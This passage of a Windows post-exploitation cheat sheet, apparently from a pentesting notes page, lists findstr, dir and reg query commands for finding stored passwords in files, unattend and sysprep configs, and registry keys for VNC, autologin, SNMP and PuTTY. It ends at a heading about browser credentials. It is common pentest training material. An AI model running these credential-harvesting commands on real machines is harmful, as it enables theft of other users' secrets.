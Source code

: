 ```
findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini

#Find all those strings in config files.
dir /s *pass* == *cred* == *vnc* == *.config*

# Find all passwords in all files.
findstr /spin "password" *.*
findstr /spin "password" *.*
```

### In Common Files

These are common files to find them in. They might be base64-encoded. So look out for that.

```
c:\sysprep.inf
c:\sysprep\sysprep.xml
c:\unattend.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml

dir c:\*vnc.ini /s /b
dir c:\*ultravnc.ini /s /b 
dir c:\ /s /b | findstr /si *vnc.ini
```

### In Registry

```
# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

# Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# SNMP Paramters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

# Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

### Check browser creds

So if you gotten access to a machine as another user. You can check to see if that user has stored credentials in the browser.
